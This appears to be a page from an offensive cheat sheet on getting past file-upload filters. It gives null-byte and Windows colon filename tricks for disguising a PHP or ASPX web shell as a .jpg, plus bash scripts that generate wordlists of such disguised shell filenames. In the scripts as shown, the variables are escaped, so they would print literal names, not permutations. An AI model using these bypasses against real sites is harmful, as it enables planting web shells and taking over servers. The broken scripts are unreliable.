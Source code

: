 ### Null Byte Injection

**Classic PHP ≤ 5.X Bypass:**
```bash
# Filename: shell.php%00.jpg
# PHP interpretation: shell.php (stops at %00)
# Whitelist check: PASS (sees .jpg extension)
```

### Windows Colon Injection

**Windows-specific bypass:**
```bash
# Filename: shell.aspx:.jpg
# Windows interpretation: shell.aspx (ignores :)
# Whitelist check: PASS (sees .jpg extension)
```

### Character Injection Wordlist Generator

**Automated Permutation Script:**
```bash
#!/bin/bash
# Generate all character injection permutations

for char in '%20' '%0a' '%00' '%0d0a' '/' '.\\\\' '.' '…' ':'; do
    for ext in '.php' '.phps' '.phtml' '.php3' '.php4' '.php5'; do
        echo "shell\$char\$ext.jpg" >> wordlist.txt
        echo "shell\$ext\$char.jpg" >> wordlist.txt
        echo "shell.jpg\$char\$ext" >> wordlist.txt
        echo "shell.jpg\$ext\$char" >> wordlist.txt
    done
done
```

**Enhanced Script with More Extensions:**
```bash
#!/bin/bash
# Comprehensive character injection wordlist

# Characters to inject
chars=('%20' '%0a' '%00' '%0d0a' '/' '.\\\\' '.' '…' ':' '%09' '%0b' '%0c')

# PHP extensions
php_exts=('.php' '.phps' '.phtml' '.php3' '.php4' '.php5' '.php7' '.phar')

# Allowed extensions  
allowed_exts=('.jpg' '.jpeg' '.png' '.gif' '.bmp' '.ico')

for char in "\${chars[@]}"; do
    for php_ext in "\${php_exts[@]}"; do
        for allowed_ext in "\${allowed_exts[@]}"; do
            # Before PHP extension
            echo "shell\$char\$php_ext\$allowed_ext" >> char_injection_wordlist.txt
            # After PHP extension
            echo "shell\$php_ext\$char\$allowed_ext" >> char_injection_wordlist.txt
            # Before allowed extension
            echo "shell\$allowed_ext\$char\$php_ext" >> char_injection_wordlist.txt
            # After allowed extension
            echo "shell\$allowed_ext\$php_ext\$char" >> char_injection_wordlist.txt
        done
    done
done

echo "Generated \$(wc -l < char_injection_wordlist.txt) filename permutations"
```